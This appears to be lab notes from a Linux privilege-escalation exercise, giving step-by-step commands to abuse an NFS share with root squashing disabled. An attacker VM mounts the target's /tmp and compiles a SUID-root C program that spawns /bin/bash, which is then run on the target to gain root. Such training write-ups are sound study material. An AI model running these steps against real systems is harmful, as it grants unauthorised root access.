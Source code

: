 # Exploitation

## Attacker VM

1. Open command prompt and type: showmount -e 10.10.39.152
2. In command prompt type: mkdir /tmp/1
3. In command prompt type: mount -o rw,vers=2 10.10.39.152:/tmp /tmp/1
In command prompt type:
echo 'int main() { setgid(0); setuid(0); system("/bin/bash"); return 0; }' > /tmp/1/x.c
4. In command prompt type: gcc /tmp/1/x.c -o /tmp/1/x
5. In command prompt type: chmod +s /tmp/1/x

## Linux VM

1. In command prompt type: /tmp/x
2. In command prompt type: id
